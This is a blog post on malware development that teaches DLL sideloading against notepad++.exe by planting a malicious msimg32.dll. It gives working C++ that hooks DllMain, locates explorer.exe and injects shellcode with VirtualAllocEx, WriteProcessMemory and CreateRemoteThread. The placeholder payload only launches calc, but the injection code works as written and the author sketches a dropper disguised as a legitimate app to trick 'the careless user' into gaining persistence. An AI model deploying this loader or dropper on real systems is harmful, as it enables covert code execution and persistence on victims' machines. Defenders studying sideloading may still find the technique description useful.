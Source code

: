 ```yaml
---
title: "Malware Development - DLL Sideloading"
classes: wide
header:
  teaser: /assets/images/Malware-Analysis/Malware-Development-DLL-Sideloading/logo.jpg
ribbon: Purple
description: "DLL sideloading is a method that allows an application to load a dynamic link library (DLL) from ..."
categories:
  - Malware Analysis
---
```



DLL sideloading is a method that allows an application to load a dynamic link library (DLL) from a location other than the application's install directory. This is often done to enable an application to use a specific version of a DLL or to load a DLL that is not in the system's default search path. In some cases, DLL sideloading can be used to introduce malicious code into an application, so it is generally considered a security risk and is often disabled on corporate and enterprise networks.

## Concept

The concept of DLL sideloading is based on the fact that many applications use DLLs to provide additional functionality or to implement certain features. A DLL is a type of file that contains code and data that can be used by multiple applications at the same time. When an application needs to use a particular DLL, it typically loads the DLL from the application's install directory or from a location specified in the system's default search path.

Here in our case, "notepad++.exe" tries to load "MSIMG32.DLL", first it will search the DLL in its folder, then check it if avaliable in "System32" folder. We will hijack this part of process, we will copy and save the DLL from "System32", add dependencies to the original but renamed DLL so that our malicious DLL does not give any errors. When "notepad++.exe" executed, our malicious DLL will be loaded without any error and calc.exe executes.

`this article will not cover obfuscation, use it for educational purposes, source code is at the bottom`

### Finding Vulnerable DLLs

As a mentioned before, this procedure requires a vulnerable DLL with "NAME NOT FOUND" result. I choose "notepad++.exe", looked for a process that resulted "NAME NOT FOUND" and picked "msimg32.dll".

![](/assets/images/Malware-Analysis/Malware-Development-DLL-Sideloading/20221208_134707_image.png)

I used my previous malware development - dropper codes, you can check them [here](https://github.com/vvelitkn/MalwareDev-Dropper).

First we should create the malicious DLL (which spawns calc.exe), so we open a new DLL project on Visual Studio named "msimg32" (you should name it with the target DLL's name). We set DllMain function like below and the rest of the code is very same as my previous code. "Action" is our malicious function.

```cpp
// dllmain.cpp : Defines the entry point for the DLL application.
#include "pch.h"
#include <Windows.h>
#include <stdio.h>
#include <TlHelp32.h>
#define _CRT_SECURE_NO_DEPRECATE
#pragma warning (disable : 4996)

BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  reason_for_call,
    LPVOID lpReserved
)
{
    HANDLE hThread = NULL;
    switch (reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        hThread = CreateThread(NULL, 0, Action, NULL, 0, NULL);
        CloseHandle(hThread);
        break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

When "Action" function called, it makes these happen.

Action -> find and open target process -> inject payload

```cpp
//msfpayload windows/x64/exec CMD="calc" EXITFUNC=thread
unsigned char payload[] = {.......}

HANDLE FindTargetProcess(const LPCSTR processName)
{
    int pid = 0;
    HANDLE hSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (INVALID_HANDLE_VALUE == hSnap)
        return 0;

    PROCESSENTRY32 ProcessListEntry;
    ProcessListEntry.dwSize = sizeof(PROCESSENTRY32);

    if (!Process32First(hSnap, &ProcessListEntry))
    {
        CloseHandle(hSnap);
        return 0;
    }  

    while (Process32Next(hSnap, &ProcessListEntry))
    {
        if (lstrcmpi(processName, ProcessListEntry.szExeFile) == 0)
        {
            pid = ProcessListEntry.th32ProcessID; break; 
        }
    }

    CloseHandle(hSnap);

    if (pid)
        return OpenProcess(PROCESS_CREATE_PROCESS | PROCESS_QUERY_INFORMATION | PROCESS_VM_OPERATION | PROCESS_VM_READ | PROCESS_VM_WRITE, FALSE, (DWORD)pid);

    return NULL;
}

int InjectPayload(HANDLE hProcess, unsigned char* payload, unsigned int payloadSize)
{

    LPVOID pRemoteShellcode = NULL;
    pRemoteShellcode = VirtualAllocEx(hProcess, NULL, payloadSize, MEM_COMMIT, PAGE_EXECUTE_READ);
    WriteProcessMemory(hProcess, pRemoteShellcode, (PVOID)payload, (SIZE_T)payloadSize, (SIZE_T*)NULL);

    HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)pRemoteShellcode, NULL, 0, NULL);
    if (hThread != NULL)
    {
        WaitForSingleObject(hThread, 500);
        CloseHandle(hThread);
        return 0;
    }
    return -1;
}

DWORD WINAPI Action(LPVOID lpParameter)
{
    HANDLE hProcess = NULL;
    unsigned int payloadsize = sizeof(payload);

    char pName[] = "explorer.exe";
    hProcess = FindTargetProcess(pName);

    if (hProcess != NULL)
    {
        InjectPayload(hProcess, payload, payloadsize);
        CloseHandle(hProcess);
    }
    return 0;
}



```

After completing the payload and injection stages, we write the export functions of my original but renamed DLL so that our malicious DLL does not fail while loading.

![](/assets/images/Malware-Analysis/Malware-Development-DLL-Sideloading/20221208_162822_image.png)

Let's test it out.

![](/assets/images/Malware-Analysis/Malware-Development-DLL-Sideloading/poc.gif)

So far, so good. Our malicious DLL loading without error. We hijack the loading cycle, but we can do more. Let's create a dropper for "msimg32.dll" and make it look like a legit app which drops our malicious DLL. So we will do this here:

Dropper -> Mal DLL + NonMal DLL -> execute payload

This procedure will give us the advantage: persistence. The careless user will run our dropper and if the user has notepad++ on their computer we will upload our files there.

To be continued.


- [Source Code](https://github.com/vvelitkn/MalwareDev-DLL-Sideloading)
